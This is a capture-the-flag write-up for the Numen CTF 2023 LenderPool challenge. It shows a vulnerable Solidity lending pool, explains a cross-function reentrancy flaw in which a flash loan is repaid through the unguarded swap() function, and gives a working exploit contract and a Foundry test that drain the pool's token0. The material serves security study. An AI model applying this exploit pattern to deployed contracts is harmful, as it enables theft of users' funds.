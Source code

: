 # Numen CTF 2023 : LenderPool

### Contract code :
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.16;

...

contract LenderPool is ReentrancyGuard {
    using Address for address;
    IERC20 public immutable token0;
    IERC20 public immutable token1;

    constructor() {
        token0 = new ERC20();
        token1 = new ERC20();
    }

    function swap(address tokenAddress,uint amount) public returns(uint){
        require(
            tokenAddress == address(token0)
        
            && token1.transferFrom(msg.sender,address(this),amount) 
            
            && token0.transfer(msg.sender,amount)

            || tokenAddress== address(token1)
            
            && token0.transferFrom(msg.sender,address(this),amount) 
            
            && token1.transfer(msg.sender,amount));
        return amount;

    } 

    function flashLoan(uint256 borrowAmount, address borrower)
        external
        nonReentrant
    {
        uint256 balanceBefore = token0.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        token0.transfer(borrower, borrowAmount);
        borrower.functionCall(abi.encodeWithSignature("receiveEther(uint256)", borrowAmount));

        uint256 balanceAfter = token0.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

}

contract Check{
    LenderPool public lenderPool;
    IERC20 token0;
    constructor(){
        lenderPool = new LenderPool();
        token0 = lenderPool.token0();
    }

    function isSolved()  public view returns(bool){

        if(token0.balanceOf(address(lenderPool)) == 0){
           return  true;
        }
        return false;
    }
}
```

The goal is to drain token0 from the lenderpool

It has a flashloan function to lend out flashloan in token0, it will check the balance of token0 before and after the token transfer and external call, also it has the `nonReentrant` modifier

However the `swap()` function doesn't have the `nonReentrant` modifier, so it's vulnerable to cross-function reentrancy attack

As it just check the balance of token0, we can return the flashloan using `swap()` by swapping all token0 to token1, so the token0 balance of the lenderpool will be the same as the token0 balance before the flashloan is transfered

### Exploit contract :
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.16;

import "./Re.sol";

contract lenderpoolExploit {
    
    LenderPool public lenderpool;
    
    function exploit(address _lenderpool) public {
        lenderpool = LenderPool(_lenderpool);
        lenderpool.flashLoan(IERC20(lenderpool.token0()).balanceOf(_lenderpool), address(this));
        // swap all token1 to token0
        IERC20(address(lenderpool.token1())).approve(address(lenderpool), IERC20(lenderpool.token1()).balanceOf(address(this)));
        lenderpool.swap(address(lenderpool.token0()), IERC20(lenderpool.token1()).balanceOf(address(this)));
    }
    
    function receiveEther(uint256 borrowAmount) public {
        // return flashloan with swap() to get token1
        IERC20(address(lenderpool.token0())).approve(address(lenderpool), borrowAmount);
        lenderpool.swap(address(lenderpool.token1()), borrowAmount);
    }
}
```

### Foundry test :
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Re.sol";
import "../src/exploit.sol";

contract lenderpoolTest is Test {
    Check public check;
    LenderPool public lenderpool;
    lenderpoolExploit public exploit;
    address hacker = makeAddr("hacker");

    function setUp() public {
        check = new Check();
        lenderpool = check.lenderPool();
    }

    function testAttack() public {
        vm.startPrank(hacker);
        
        exploit = new lenderpoolExploit();
        exploit.exploit(address(lenderpool));
        
        assertTrue(check.isSolved());
    }
}
```